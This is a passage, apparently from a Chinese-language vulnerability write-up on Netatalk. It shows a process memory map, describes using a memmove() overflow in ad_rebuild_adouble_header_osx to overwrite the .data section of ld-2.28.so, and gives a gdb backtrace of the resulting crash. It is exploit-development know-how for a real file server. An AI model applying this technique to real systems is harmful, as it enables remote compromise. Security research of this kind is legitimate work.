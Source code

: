 ```
      0x7f6c581bb000     0x7f6c581bc000     0x1000     0x2000 /usr/local/modules/lib/netatalk/uams_guest.so
      0x7f6c581bc000     0x7f6c581bd000     0x1000     0x2000 /usr/local/modules/lib/netatalk/uams_guest.so
      0x7f6c581bd000     0x7f6c581be000     0x1000     0x3000 /usr/local/modules/lib/netatalk/uams_guest.so
      0x7f6c581be000     0x7f6c581bf000     0x1000        0x0 /lib/ld-2.28.so
      0x7f6c581bf000     0x7f6c581dd000    0x1e000     0x1000 /lib/ld-2.28.so
      0x7f6c581dd000     0x7f6c581e5000     0x8000    0x1f000 /lib/ld-2.28.so
      0x7f6c581e5000     0x7f6c581e6000     0x1000    0x26000 /lib/ld-2.28.so
      0x7f6c581e6000     0x7f6c581e7000     0x1000    0x27000 /lib/ld-2.28.so
      0x7f6c581e7000     0x7f6c581e8000     0x1000        0x0 
      0x7ffe86f2b000     0x7ffe86f71000    0x46000        0x0 [stack]
      0x7ffe86fb7000     0x7ffe86fba000     0x3000        0x0 [vvar]
      0x7ffe86fba000     0x7ffe86fbc000     0x2000        0x0 [vdso]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

这意味着我们可以使用`memmove()`函数来覆盖上述我们提到的动态库中的一些内容。那么我们应该选择哪个动态库呢？

通过调试我们注意到，当崩溃发生时，如果我们继续执行，Netatalk中的一个特殊的异常处理函数会接受并处理当前异常。

更准确地说，我们覆盖了整个`ld-2.28.so`的`.data`段，并最终触发下面的崩溃：

```
(remote-gdb) bt
#0  0x00007f423de3eb50 in _dl_open (file=0x7f423dbf0e86 "libgcc_s.so.1", mode=-2147483646, caller_dlopen=0x7f423db771c5 <init+21>, nsid=-2, argc=4, argv=0x7fffa4967cf8, env=0x7fffa4967d20) at dl-open.c:548
#1  0x00007f423dba406d in do_dlopen (Reading in symbols for dl-error.c...done.
ptr=ptr@entry=0x7fffa4966170) at dl-libc.c:96
#2  0x00007f423dba4b2f in __GI__dl_catch_exception (exception=exception@entry=0x7fffa49660f0, operate=operate@entry=0x7f423dba4030 <do_dlopen>, args=args@entry=0x7fffa4966170) at dl-error-skeleton.c:196
#3  0x00007f423dba4bbf in __GI__dl_catch_error (objname=objname@entry=0x7fffa4966148, errstring=errstring@entry=0x7fffa4966150, mallocedp=mallocedp@entry=0x7fffa4966147, operate=operate@entry=0x7f423dba4030 <do_dlopen>, args=args@entry=0x7fffa4966170) at dl-error-skeleton.c:215
#4  0x00007f423dba4147 in dlerror_run (operate=operate@entry=0x7f423dba4030 <do_dlopen>, args=args@entry=0x7fffa4966170) at dl-libc.c:46
#5  0x00007f423dba41d6 in __GI___libc_dlopen_mode (name=name@entry=0x7f423dbf0e86 "libgcc_s.so.1", mode=mode@entry=-2147483646) at dl-libc.c:195
#6  0x00007f423db771c5 in init () at backtrace.c:53
Reading in symbols for pthread_once.c...done.
#7  0x00007f423dc40997 in __pthread_once_slow (once_control=0x7f423dc2ef80 <once>, init_routine=0x7f423db771b0 <init>) at pthread_once.c:116
#8  0x00007f423db77304 in __GI___backtrace (array=<optimised out>, size=<optimised out>) at backtrace.c:106
#9  0x00007f423ddcd6db in netatalk_panic () from symbols/lib64/libatalk.so.18
#10 0x00007f423ddcd902 in ?? () from symbols/lib64/libatalk.so.18
#11 0x00007f423ddcd958 in ?? () from symbols/lib64/libatalk.so.18
Reading in symbols for ../sysdeps/unix/sysv/linux/x86_64/sigaction.c...done.
#12 <signal handler called>
#13 __memmove_sse2_unaligned_erms () at ../sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S:238
#14 0x00007f423dda6fd0 in ad_rebuild_adouble_header_osx () from symbols/lib64/libatalk.so.18
#15 0x00007f423ddaa985 in ?? () from symbols/lib64/libatalk.so.18
#16 0x00007f423ddaaf34 in ?? () from symbols/lib64/libatalk.so.18
#17 0x00007f423ddad7b0 in ?? () from symbols/lib64/libatalk.so.18
#18 0x00007f423ddad9e1 in ?? () from symbols/lib64/libatalk.so.18
#19 0x00007f423ddae56c in ad_open () from symbols/lib64/libatalk.so.18
#20 0x000055cd275c1ea7 in afp_openfork ()
#21 0x000055cd275a386e in afp_over_dsi ()
#22 0x000055cd275c6ba3 in ?? ()
#23 0x000055cd275c68fd in main ()
```
